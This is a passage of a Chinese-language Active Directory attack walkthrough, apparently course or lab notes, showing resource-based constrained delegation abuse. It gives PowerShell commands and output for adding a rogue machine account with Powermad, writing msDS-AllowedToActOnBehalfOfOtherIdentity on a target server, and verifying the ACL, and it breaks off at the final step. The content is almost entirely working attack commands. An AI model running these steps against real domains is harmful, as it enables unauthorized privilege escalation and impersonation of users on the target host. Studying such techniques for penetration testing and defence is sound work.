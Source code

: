 ```powershell
...
```
2. 使用powermad添加新机器

```powershell
PS C:\tools> . .\powermad.ps1
PS C:\tools> New-MachineAccount -MachineAccount myComputer -Password $(ConvertTo-SecureString 'h4x' -AsPlainText -Force)
[+] Machine account myComputer added
PS C:\tools> Get-DomainComputer -Identity myComputer
pwdlastset : 4/14/2020 2:35:29 PM
logoncount : 0
badpasswordtime : 12/31/1600 4:00:00 PM
distinguishedname : CN=myComputer,CN=Computers,DC=prod,DC=corp1,DC=com
objectclass : {top, person, organizationalPerson, user...}
name : myComputer
serviceprincipalname : {RestrictedKrbHost/myComputer, HOST/myComputer,
RestrictedKrbHost/myComputer.prod.corp1.com,
HOST/myComputer.prod.corp1.com}
...
```
3. 设置msds-allowedtoactonbehalfofotheridentity

```powershell
PS C:\tools> $sid =Get-DomainComputer -Identity myComputer -Properties objectsid | Select -Expand objectsid
PS C:\tools> $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"
PS C:\tools> $SDbytes = New-Object byte[] ($SD.BinaryLength)
PS C:\tools> $SD.GetBinaryForm($SDbytes,0)

PS C:\tools> Get-DomainComputer -Identity appsrv01 | Set-DomainObject -Set @{'msdsallowedtoactonbehalfofotheridentity'=$SDBytes}
```
4. 验证

```powershell
PS C:\tools> $RBCDbytes = Get-DomainComputer appsrv01 -Properties 'msdsallowedtoactonbehalfofotheridentity'| select -expand msdsallowedtoactonbehalfofotheridentity
PS C:\tools> $Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RBCDbytes, 0
PS C:\tools> $Descriptor.DiscretionaryAcl
BinaryLength : 36
AceQualifier : AccessAllowed
IsCallback : False
OpaqueLength : 0
AccessMask : 983551
SecurityIdentifier : S-1-5-21-3776646582-2086779273-4091361643-2101
AceType : AccessAllowed
AceFlags : None
IsInherited : False
InheritanceFlags : None
PropagationFlags : None
AuditFlags : None
PS C:\tools> ConvertFrom-SID S-1-5-21-3776646582-2086779273-4091361643-2101
PROD\myComputer$

```
5. 获取

